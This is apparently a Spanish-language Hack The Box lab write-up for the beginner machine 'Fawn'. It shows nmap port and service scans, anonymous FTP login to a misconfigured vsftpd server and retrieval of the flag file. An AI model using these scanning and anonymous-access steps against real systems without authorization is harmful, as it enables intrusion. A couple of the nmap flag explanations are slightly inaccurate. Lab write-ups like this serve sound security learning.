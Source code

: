 ```yaml
---
layout: single
title: Fawn - Hack The Box
excerpt: "Fawn es una máquina muy fácil que forma parte del Tier 0 de las máquinas para principiantes del Starting Point de Hack The Box. Para poder completar esta máquina, tendremos que conectarnos a ella a través de la VPN, para posteriormente comprometer la máquina mediante técnicas de reconocimiento para abusar de las vulnerabilidades existentes. En este caso, estaremos tocando FTP, un protocolo de red utilizado para la transferencia de archivos entre un cliente y un servidor."
date: 2022-10-26
classes: wide
header:
  teaser: /assets/images/htb-writeup-fawn/fawn-logo.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - HackTheBox
  - CTFs
  - Linux
tags:  
  - ftp
  - anonymous ftp
---
```


![](/assets/images/htb-writeup-fawn/fawn-logo.png)

Fawn es una máquina Linux muy fácil que forma parte del Tier 0 de las máquinas para principiantes del Starting Point de Hack The Box. Para poder completar esta máquina, tendremos que conectarnos a ella a través de la VPN, para posteriormente comprometer la máquina mediante técnicas de reconocimiento y escaneos para abusar de las vulnerabilidades existentes. En este caso, estaremos tocando `File Transfer Protocol (FTP)`, un protocolo de red utilizado para la transferencia de archivos informáticos entre un cliente y un servidor en una red.

## Reconocimiento Inicial

```
ping -c 1 10.129.205.43

PING 10.129.205.43 (10.129.205.43) 56(84) bytes of data.
64 bytes from 10.129.205.43: icmp_seq=1 ttl=63 time=44.1 ms

--- 10.129.205.43 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time Oms
rtt min/avg/max/mdev 44.102/44.102/44.102/0.000 ms
```

## Escaneo de Puertos

```
sudo nmap -p- --open -sS -min-rate 5000 -vvv -n -Pn 10.129.205.43 -oG allPorts

Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-14 15:48 CEST
Initiating SYN Stealth Scan at 15:48
Scanning 10.129.205.43 [65535 ports)
Discovered open port 21/tcp on 10.129.205.43
Completed SYN Stealth Scan at 15:48, 15. 16s elapsed (65535 total ports)
Nmap scan report for 10.129.205.43
Host is up, received user-set (0.049s latency).
Scanned at 2022-08-14 15:48:15 CEST for 15s
Not shown: 63372 closed top ports (reset), 2162 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT STATE SERVICE REASON
21/tcp open ftp syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap Nmap done: 1 IP address (1 host up) scanned in 15.31 seconds
    Raw packets sent: 76101 (3.348MB) | Rovd: 67006 (2.680MB)
```

**Escaneo inicial de puertos abiertos con Nmap**
- **-p-** Escanea todo el rango de puertos [1-65535]
- **--open** Muestro solo los puertos abiertos
- **-sS** Aplica un TCP SYN Port Scan
- **--min-rate** Indica el número de paquetes por segundo a emitir
- **-vvv** Muestra por pantalla la información descubierta durante el escaneo
- **-n** Indica que no se aplicará resolución DNS durante el escaneo 
- **-Pn** Indica que no se aplicará el protocolo ARP durante el escaneo
- **-oG** Exporta el output del escaneo a un fichero en formato grepeable

![](/assets/images/htb-writeup-fawn/allPorts.png)

```
sudo nmap -sCV -p21 10.129.205.43 -oN targeted

Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-14 15:51 CEST
Nmap scan report for 10.129.205.43
Host is up (0.28s latency).

PORT STATE SERVICE VERSION
21/tcp open ftp vsftpd 3.0.3
 | ftp-anon: Anonymous FTP login allowed (FTP code 230)
 |-rw-r--r-- 1 0 32 Jun 04 2021 flag.txt
 | ftp-syst:
 |     STAT: FTP server status:
 |     Connected to ::ffff:10.10.14.67
 |     Logged in as ftp
 |     TYPE: ASCII
 |     No session bandwidth limit
 |     Session timeout in seconds is 300
 |     Control connection is plain text
 |     Data connections will be plain text
 |     At session startup, client count was 2
 |     VSFTPd 3.0.3 - secure, fast, stable
 |_End of status
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 4.67 seconds
```

**Escaneo avanzado de detección de versiones y servicios con Nmap**
- **-p** Escanea los puertos especificados
- **-sV** Activa la detección de versiones y servicios
- **-sC** Lanza scripts básicos de reconocimiento y enumeración
- **-oG** Exporta el output del escaneo a un fichero en formato normal

![](/assets/images/htb-writeup-fawn/targeted.png)

## Detección de vulnerabilidades

A veces, una típica mala configuración para ejecutar servicios FTP permite que
`una cuenta anónima pueda acceder al servicio` como cualquier otro usuario autenticado. El nombre de usuario `anonymous` se puede ingresar cuando aparece el mensaje, seguido de cualquier contraseña, ya que el servicio ignorará la contraseña de esta cuenta específica.

## Explotación de vulnerabilidades

**FTP**

Procedemos a conectarnos al servicio `FTP` a través de la ip de la máquina víctima para posteriormente acceder al servicio desde la cuenta `anonymous` con cualquier contraseña.

```
ftp 10.129.205.43

Connected to 10.129.205.43.
220 (vsFTPd 3.0.3)
Name (10.129.205.43:kali): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.

ftp>
```

Una vez dentro del servidor, podemos descargar la `flag.txt` a nuestro host local con el comando `get`, seguido del nombre del archivo que queremos descargar y el comando `exit` para salir.

```
ftp> ls

229 Entering Extended Passive Mode (|||17256|)
150 Here comes the directory listing.
-rw-r--r-      1 0       0              32 Jun 04   2021 flag.txt
226 Directory send OK.


ftp> get flag.txt

local: flag.txt remote: flag.txt
32 Jun 04 2021 flag.txt
229 Entering Extended Passive Mode (|||55124|)
150 Opening BINARY mode data connection for flag.txt (32 bytes).
100% **********************************************************
226 Transfer complete.
32 bytes received in 00:00 (0.67 KiB/s)

ftp> exit
```

Finalmente, si salimos del servicio FTP después de transferir la flag del servidor a nuestro host, tendremos en nuestro equipo la `flag` de HackTheBox, que es nuestro objetivo principal.

![](/assets/images/htb-writeup-fawn/flag.png)